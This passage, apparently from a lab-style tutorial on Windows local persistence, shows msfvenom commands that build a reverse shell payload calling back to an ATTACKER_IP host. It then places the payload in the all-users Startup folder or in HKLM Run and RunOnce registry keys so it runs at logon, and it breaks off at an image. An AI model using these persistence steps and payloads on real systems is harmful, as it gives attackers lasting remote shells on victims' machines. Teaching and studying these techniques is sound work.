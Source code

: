 For this task, let's generate a reverse shell payload using msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe
```

We will then copy our payload into the victim machine.

We then store the payload into the `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` folder to get a shell back for any user logging into the machine.

Now be sure to sign out of your session from the start menu (closing the RDP window is not enough as it leaves your session open)

And log back via RDP. You should receive a connection back to your attacker's machine in few seconds.

### 5.2 Run / RunOnce

You can also force a user to execute a program on logon via the registry. Instead of delivering your payload into a specific directory, you can use the following registry entries to specify applications to run at logon:

* `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`

* `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

The registry entries under `HKCU` will only apply to the current user, and those under `HKLM` will apply to everyone. Any program specified under the Run keys will run every time the user logs on. Programs specified under the RunOnce keys will only be executed a single time.

For this task, let's create a new reverse shell with msfvenom:

```Bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4451 -f exe -o revshell.exe
```

After transferring it to the victim machine, let's move it to `C:\Windows\`:

Let's then create a `REG_EXPAND_SZ` registry entry under `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`. The entry's name can be anything you like, and the value will be the command we want to execute.

![image](/img/WindowsLocalPersistence/9.png)